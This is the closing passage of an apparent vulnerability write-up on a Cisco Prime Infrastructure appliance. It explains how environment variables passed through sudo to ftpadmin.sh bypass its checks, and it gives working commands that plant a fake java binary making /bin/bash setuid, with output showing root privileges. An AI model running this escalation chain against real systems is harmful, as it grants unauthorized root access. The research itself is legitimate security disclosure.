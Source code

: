 ```bash
   ;;
   resetPasswd)
      resetAndSynchPasswd
   ;;
   unsetPasswd)
      unsetUserSetPasswd
   ;;
   *)
      echo "Usage: $0 {start|stop|restart|status|state|resetPasswd}"
      exit 10
esac
```

To reach the `$INSTALL_ROOT/jre64/bin/java` we need to bypass some checks. For example `if [ ! -z "$FTP_USER_PASSWD" ]` checks if the `FTP_USER_PASSWD` is non-empty. If `FTP_USER_PASSWD` contains a value, the script proceeds.

There is also a check `if ! id -a $USERNAME &> /dev/null` where `$USERNAME` is defined as `${FTP_UNAME:-ftp-user}`. So we can specify `FTP_UNAME` to be `root` or some existing user one the system.

After some trial and error, we found out we could set the variables to something like this:

```bash
FTP_UNAME=root FTP_USER_PASSWD=root INSTALL_ROOT=/tmp XMP_HOME=/tmp
```

So lets create `/tmp/jre64/bin/java` and trying to run the script again.

```bash
mkdir -p /tmp/jre64/bin/
echo "chmod u+s /bin/bash" > /tmp/jre64/bin/java
chmod +x /tmp/jre64/bin/java
sudo FTP_UNAME=root FTP_USER_PASSWD=root INSTALL_ROOT=/tmp XMP_HOME=/tmp /opt/CSCOlumos/rcmds/ftpadmin.sh resetPasswd

/bin/bash -p
id
uid=998(prime) gid=995(prime) euid=0(root) groups=995(prime),0(root)
```

---

## Conclusion

This challenge was truly akin to "Swiss cheese"—multiple vulnerabilities layered together. Some methods were similar and could be easily patched, but we explored various paths to test the possibilities. It was a fun and insightful challenge!

A big thank you to everyone involved in the testing and analysis. Let’s hope Cisco takes these findings seriously and addresses these vulnerabilities promptly.

